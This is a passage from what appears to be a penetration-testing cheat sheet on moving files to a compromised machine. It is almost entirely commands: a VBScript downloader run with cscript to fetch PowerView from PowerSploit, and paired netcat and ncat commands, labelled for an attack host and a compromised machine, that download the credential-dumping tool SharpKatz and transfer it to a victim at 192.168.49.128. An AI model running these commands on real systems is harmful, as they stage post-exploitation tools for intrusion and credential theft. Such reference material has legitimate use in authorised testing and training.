 ```vbscript
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
### Download a File Using VBScript and cscript.exe
```cmd
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
# Miscellaneous File Transfer Methods
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine
```shell
nc -l -p 8000 > SharpKatz.exe
```
#### Ncat - Compromised Machine
```shell
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
#### Netcat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
#### Ncat - Attack Host - Sending File to Compromised machine
```shell
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
#### Attack Host - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell
nc 192.168.49.128 443 > SharpKatz.exe
```
#### Attack Host - Sending File as Input to Ncat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
#### NetCat - Sending File as Input to Netcat
```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Ncat - Sending File as Input to Netcat
```shell
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```